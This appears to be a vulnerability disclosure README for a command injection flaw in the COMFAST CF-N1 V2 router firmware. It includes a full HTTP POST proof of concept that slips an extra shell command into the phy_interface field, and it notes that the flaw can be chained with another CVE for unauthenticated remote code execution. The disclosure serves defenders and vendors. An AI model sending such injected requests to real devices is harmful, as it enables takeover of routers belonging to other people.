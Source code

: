 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `multi_pppoe`

PS:
1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.
2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_42FF1C`). Attackers can inject arbitrary commands via the `phy_interface` parameter when using the `one_click_redial` action, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_42FF1C` function handling the `multi_pppoe` configuration. Disassembly analysis shows that the `phy_interface` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` when the `action` is set to `one_click_redial`.

Key code flow:



1.  User input (including `phy_interface`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  When `action` is `one_click_redial`, the `phy_interface` value is inserted into a command string using `sprintf_0` (e.g., constructing `ifdown %s; ifup %s` or similar network interface commands).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `&&`, `;`, or `|`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 105
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && echo pppoe > /www-comfast/test.txt","real_num":1}
```



*   **Notes**: The vulnerable parameter is `phy_interface`, exploited using `&&` to chain an additional command.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "pppoe", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
